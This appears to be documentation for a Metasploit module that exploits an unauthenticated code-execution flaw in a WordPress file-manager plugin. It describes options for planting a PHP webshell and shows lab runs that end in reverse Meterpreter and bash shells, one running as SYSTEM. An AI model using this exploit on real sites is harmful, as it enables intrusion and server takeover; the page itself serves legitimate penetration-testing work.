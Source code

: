 ```

View the full module info with the info -d command.
```
## Options

### TARGETURI
The uripath to the webpage where the file-manager-advanced shortcode is embedded.

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios
### Windows Server 2019 PHP - php/meterpreter/reverse_tcp
```
msf exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 2a1a319c46
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.55
[+] Deleted KBWxIdRChosZC.php
[*] Meterpreter session 1 opened (192.168.201.10:4444 -> 192.168.201.55:50380) at 2023-06-28 14:13:07 +0000

meterpreter > sysinfo
Computer    : WIN-BJDNH44EEDB
OS          : Windows NT WIN-BJDNH44EEDB 10.0 build 17763 (Windows Server 2016) AMD64
Meterpreter : php/windows
meterpreter > getuid
Server username: SYSTEM
meterpreter >
```
### Kali Linux Server Unix Command -  cmd/unix/reverse_bash
```
msf exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 5a669fda54
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted LlCresesS.php
[*] Command shell session 5 opened (192.168.201.10:4444 -> 192.168.201.10:56290) at 2023-06-28 15:34:20 +0000

uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-03) aarch64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```